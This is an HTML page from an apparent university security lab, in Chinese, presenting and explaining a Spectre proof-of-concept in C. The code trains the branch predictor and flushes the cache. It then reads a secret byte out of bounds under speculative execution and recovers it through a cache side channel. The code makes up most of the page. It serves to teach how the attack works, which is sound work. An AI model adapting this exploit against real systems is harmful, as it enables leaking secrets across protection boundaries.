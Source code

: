 ========================================
文件路径: .\实验中使用的程序\summary.html
========================================

<div>Spectre 攻击的代码（SpectreAttack.c) 如下所示。在这段代码中，定义了一个秘密值（第 🅰 行）。假设我们不能直接访问 secret，也不能修改 bound_lower 或 bound_upper 变量（但我们假设可以清除这两个边界变量的缓存）。我们的目标是利用 Spectre 攻击打印出秘密值。以下代码仅窃取秘密值的第一个字节。学生们可以扩展它以输出更多字节。</div>
<p></p>
<div>
<pre class="language-c"><code>/* SpectreAttack.c */
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
char    *secret    = "Some Secret Value";     🅰
uint8_t array[256*4096];

// 沙箱函数
uint8_t restrictedAccess(size_t x)
{
  if (x &lt;= bound_upper &amp;&amp; x &gt;= bound_lower) {
     return buffer[x];
  } else { return 0; }
}

void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;

  // 训练 CPU 使得其在 restrictedAccess() 中预测真分支。
  for (i = 0; i &lt; 10; i++) {
      restrictedAccess(i);
  }

  // 清除缓存中的 bound_upper、bound_lower 和 array[]。
  _mm_clflush(&amp;bound_upper);
  _mm_clflush(&amp;bound_lower);
  for (i = 0; i &lt; 256; i++)  { _mm_clflush(&amp;array[i*4096 + DELTA]); }
  for (z = 0; z &lt; 100; z++)  {   }

  s = restrictedAccess(index_beyond);      🅱
  array[s*4096 + DELTA] += 88;             🅲        
}

int main() {
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  🅳
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);
  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
  return (0);
}</code></pre>
</div>
<div> </div>
<div>大部分代码与 <span style="text-align: initial;">SpectreExperiment.c </span>中的内容相同，因此我们不在这里赘述。最重要的部分是第 🅱、🅲 和 🅳 行。第 🅳 行计算了 secret 从缓冲区起始位置的偏移量（假设攻击者知道 secret 的地址；在实际攻击中，攻击者有许多方法可以推断出该地址，包括猜测）。这个偏移量肯定超出了缓冲区范围，因此它会大于缓冲区的上限或小于下限（即负数）。我们把偏移量传给 restrictedAccess() 函数。由于我们已经训练了 CPU，使其在 restrictedAccess() 中的推测性执行选择真分支，CPU 将在推测性执行中返回 buffer[index_beyond]，该值包含了秘密值。这个秘密值随后导致其对应元素的 array[] 被加载到缓存中。所有这些步骤最终都会被撤销，所以从外部来看，restrictedAccess() 仅返回 0 而非秘密值。然而，缓存未被清除，并且 array[s*4096 + DELTA] 仍然保持在缓存中。现在我们只需要使用侧信道技术来确定哪个元素的 array[] 处于缓存中，就可以推测出 s 的值。</div>
